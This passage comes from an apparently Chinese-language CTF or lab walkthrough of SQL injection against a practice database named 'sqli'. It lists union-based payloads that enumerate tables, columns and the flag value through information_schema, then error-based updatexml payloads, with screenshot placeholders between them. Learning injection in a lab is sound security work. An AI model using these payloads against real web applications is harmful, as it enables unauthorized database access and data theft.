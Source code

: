 **6.获取数据库表名**

（1）方法一：一次获取一个表名

-1' union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1)#

![image-20220609090732300](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090732300.png)

-1' union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)#

![image-20220609090927855](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090927855.png)

2）方法二：一次性获取当前数据库所有表名

-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#

![image-20220609083357239](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083357239.png)

**7.获取表中的字段名**

-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'#

![image-20220609083448877](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083448877.png)

**8.获取数据**

-1' union select 1,group_concat(flag) from sqli.flag#

![image-20220609083624560](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083624560.png)



### **报错注入

#### 方法一：updatexml

**利用updatexml来xpath报错。**

1 and (select updatexml(1, (concat (0x7e, (select database()))),1)) 

![image-20220609094015870](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094015870.png)

1 and (select updatexml(1, (concat (0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='sqli'))),1))  

![image-20220609094048157](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094048157.png)

1 and (select updatexml(1, (concat (0x7e, (select group_concat(column_name) from information_schema.columns where table_name='flag'))),1)) 

![image-20220609094108544](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609094108544.png)

1 and (select updatexml(1, concat(0x7e, (select flag from flag)), 1))
